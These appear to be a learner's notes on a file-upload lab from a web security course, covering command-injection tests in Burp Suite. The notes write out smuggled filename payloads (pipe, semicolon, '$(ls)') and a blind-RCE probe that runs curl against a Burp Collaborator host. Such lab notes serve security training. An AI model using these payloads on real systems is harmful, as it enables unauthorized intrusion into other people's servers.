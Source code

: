 Analysis of File uploads lab  :-  ( http://upload.naham.sec:8081/ )
![[Screenshot From 2025-03-11 16-39-19.png]]
But what about other vulnerabilities? I mentioned vulnerabilities like RCE, SSRF, depending on how this application works


So now we're going to do the same thing. We're going to intercept (in Burp Suite) and send out the same file(Linux-Commands_Cheat-Sheet.png). We're going to send it to the Burp repeater by right-clicking and selecting "Send to Repeater." If you're on Windows, it's Control+R, and if you're on Mac, it's Command+R.

This sends the entire request to the repeater, and every time we send this request in, 
I'm going to test this as  "test123." Every time we push "Send," it makes a request for us. If we look  at our website response, we can see that it has successfully done that.
![[Screenshot From 2025-03-11 16-42-12.png]]

But I want to test out for an RCE. If I remember the slides from our RCE chapter, there are a number of ways to get an RCE to work. One of those is to just give it a pipe ( | ). So at the end of that, we can add a pipe, which tells the system to finish whatever last command it's doing and then run the second command  "ls".
We tried that, refreshed, and nothing worked. 
We can see that. 
![[Screenshot From 2025-03-11 16-51-35.png]]

What about if we wanted to test out something like a semicolon? We're going to do the same thing. ![[Screenshot From 2025-03-11 16-50-57.png]]
That doesn't work either. We already covered the pipe and the semicolon.



One of the things we talked about was the concept of an ==inline command==. This means if you're in the middle of the command line while the application is running its own command as an argument of some sort, we want to insert our own command within it. If you're not familiar with this, I highly recommend looking into it and reviewing the slides.

In this case, we're going to give it an inline RCE using `$(command)`. Our command goes in there - `$(ls)` , and we push "Go."
![[Screenshot From 2025-03-11 16-54-07.png]]
As expected, nothing has worked.


From previous tests, we can see that nothing is really working. It's not giving us an RCE. 
In this case, ==we have to test for a blind RCE.== I know we haven't covered this previously in our slides. It's almost the same as an RCE; we just have to find a different way to see the output of a command.

This could be done in several ways. The first thing we can try is sending a cURL request. We can say, "Hey, I want you to make a cURL command,"   `( filename="test123 $(curl Burp-collaborator-payload-link ).png)`
![[Screenshot From 2025-03-11 17-02-29.png]]
and use a Burp Collaborator link. We copy the link and tell it to send the request to our Burp Collaborator, hoping that this command gets executed.

